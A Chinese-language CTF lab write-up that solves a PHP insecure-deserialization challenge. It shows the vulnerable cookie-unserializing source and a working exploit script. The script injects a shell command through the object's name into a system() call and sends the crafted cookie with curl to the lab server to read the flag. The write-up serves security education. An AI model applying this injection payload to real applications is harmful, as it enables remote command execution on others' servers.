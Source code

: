 # LAB - Serializable Cat
###### tags: `資安` `Web`

## 題目解析
畫面中可以看到第一次連進網站顯示 cat_ random number，第二次就是一個 cowsay 的畫面，點底下那行字可以看到網頁 source code。

![](https://i.imgur.com/Z0TF7yJ.png)
--
![](https://i.imgur.com/2cPrMGl.png)

```php=
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

if (!isset($_COOKIE['cat_session'])) {
    $cat = new Cat("cat_" . rand(0, 0xffff));
    setcookie('cat_session', base64_encode(serialize($cat)));
} else {
    $cat = unserialize(base64_decode($_COOKIE['cat_session']));
}
?>
<p>Hello, <?= $cat->name ?>.</p>
<a href="/?source">source code</a>
```
## 解題流程
從 source code 可以看到一個名為 Cat 的 class，有定義好反序列化自動執行的 magic function \_\_wakeup()，另外讀取頁面時會判斷有無 cat_session 這個 cookie，若有就做反序列化，沒有就建立一個 random name。

這邊就可以利用 php 反序列化會自動執行 \_\_wakeup() 的特性，\_\_wakeup() 做了一個 system("cowsay 'Welcome back, $this->name'")，因此我們其實可以自行建立一個 Cat，對 \_\_construct 做一點操作去改變名字，序列化後傳給 server，讓 server 反序列化後自動去執行到別的指令。

名字的地方先用一個 \' 來閉合前面的 cowsay 指令的參數，輸入其餘指令，再用 \' 閉合後面空字串，最後在 base64 encode 序列化當成 cookie 傳給 server 就能，就能達到惡意指令輸入，稍微找一下就可以看到 FLAG 了。

```php=
<?php
class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}
$cat = new Cat("'.; cd /; cat flag_5fb2acebf1d0c558'");
$my_cookie = base64_encode(serialize($cat));
system("curl http://h4ck3r.quest:8601/ --cookie 'cat_session=$my_cookie'")
?>
```
## FLAG 截圖
![](https://i.imgur.com/yYxpI2d.png)
